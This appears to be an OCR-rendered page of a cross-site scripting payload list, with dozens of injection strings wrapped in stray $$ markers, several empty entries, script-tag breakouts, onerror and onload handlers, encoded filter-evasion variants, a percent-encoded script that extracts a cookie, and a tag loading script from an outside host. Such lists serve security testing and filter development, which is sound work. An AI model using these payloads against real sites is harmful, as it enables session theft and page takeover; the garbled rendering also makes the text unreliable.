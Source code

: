 $$'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E$$
$$'';!--"<XSS>=&{()}$$
$$'-alert(1)-'$$
$$'-alert(1)//$$
$$'-eval("window['pro'%2B'mpt'](8)")-'$$
$$'-prompt(8)-'$$
$$';a=prompt,a()//$$
$$';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";$$
$$'<script>window.onload=function(){document.forms[0].message.value='1';}</script>$$
$$'>alert(1)</script><script/1=' $$
$$'`"><\x00script>javascript:alert(1)</script>$$
$$'`"><\x3Cscript>javascript:alert(1)</script>$$
$$'`"><\x3Cscript>javascript:alert(1)</script>        $$
$$'onload=alert(1)><svg/1='$$
$$(alert)(1)$$
$$*/</script>'>alert(1)/*<script/1='$$
$$*/alert(1)">'onload="/*<svg/1='$$
$$*/alert(1)</script><script>/*$$
$$*{background:url(xx:x //**/\red/*)} /* IE 6-7 Standards mode */$$
$$*{color:gre/**/en !/**/important} /* IE 6-9 Standards mode */$$
$$*{color:red}</style>//["'`-->]]>]</div>$$
$$--> <img src=xxx:x onerror=javascript:alert(1)> -->$$
$$-->$$
$$-->$$
$$-->$$
$$--></Script><Image SrcSet=K */; OnError=confirm`1` //>$$
$$$$
$$$$
$$$$
$$$$
$$$$
$$$$
$$<svg height="50px">$$
$$$$
$$$$
$$<img src=x onerror=javascript:alert(1)//">$$
$$<scRipT src=//14.rs>$$
$$$$
$$//["'`-->]]>]</div>$$
$$$$
$$$$
$$$$
$$<!ATTLIST xsl:stylesheet id    ID    #REQUIRED>]>$$
$$<!DOCTYPE doc [$$
$$<![><img src="]><img src=x onerror=alert(39)//">$$
$$<![><img src="]><img src=x onerror=javascript:alert(1)//">$$
$$<!a foo=x=`y><img alt="`><img src=xx:x onerror=alert(2)//">$$
$$<%$$
$$<% foo><x foo="%><script>alert(91)</script>">//["'`-->]]>]</div>$$
$$<% foo><x foo="%><script>javascript:alert(1)</script>">$$
$$<%73%63%72%69%70%74> %64 = %64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74(%22%64%69%76%22); %64%2e%61%70%70%65%6e%64%43%68%69%6c%64(%64%6f%63%75%6d%65%6e%74%2e%68%65%61%64%2e%63%6c%6f%6e%65%4e%6f%64%65(%74%72%75%65)); %61%6c%65%72%74(%64%2e%69%6e%6e%65%72%48%54%4d%4c%2e%6d%61%74%63%68(%22%63%6f%6f%6b%69%65 = '(%2e%2a%3f)'%22)[%31]); </%73%63%72%69%70%74>$$
$$<%78 onxxx=1 $$
$$<%$$
$$<--`<iMG/srC=` onerror=confirm``> --!>$$
$$<--`<img/src=` onerror=alert(1)> --!>$$
$$</ foo="><script>alert(91)</script>">$$